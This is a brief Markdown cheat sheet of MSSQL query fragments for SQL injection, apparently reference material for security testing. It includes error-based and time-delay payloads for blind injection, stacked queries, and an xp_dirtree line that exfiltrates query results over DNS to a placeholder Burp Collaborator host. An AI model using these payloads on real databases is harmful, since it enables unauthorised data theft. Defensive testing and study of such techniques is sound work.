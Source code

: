 ## summary

Useful SQL commands for mssql dbms

## string concatenation
`'foo'+'bar'`

## substring
`SUBSTRING('foobar', 4, 2)`

## comments
`--comments`

## database version
`select @@version`

## database contents
`seelect * from information_schema.tables`

`select * from information_schema.columns where table_name = 'TABLE-NAME-HERE'`

## conditional errors
`select case when (YOUR-CONDITION-HERE) then 1/0 else null end`

## batched (or stacked) queries
`query-1-here; query-2-here`

## time delays
`waitfor delay '0:0:10'`

## conditional time delays
`if (YOUR-CONDITION-HERE) waitfor delay '0:0:10'`

## dns lookup
`exec master..xp_dirtree '//YOUR-COLLABORATOR.burpcollaborator.net/a'`

## dns lookup with data exfiltration
`declare @p varchar(1024);set @p=(select YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-COLLABORATOR.burpcollaborator.net/a"')`



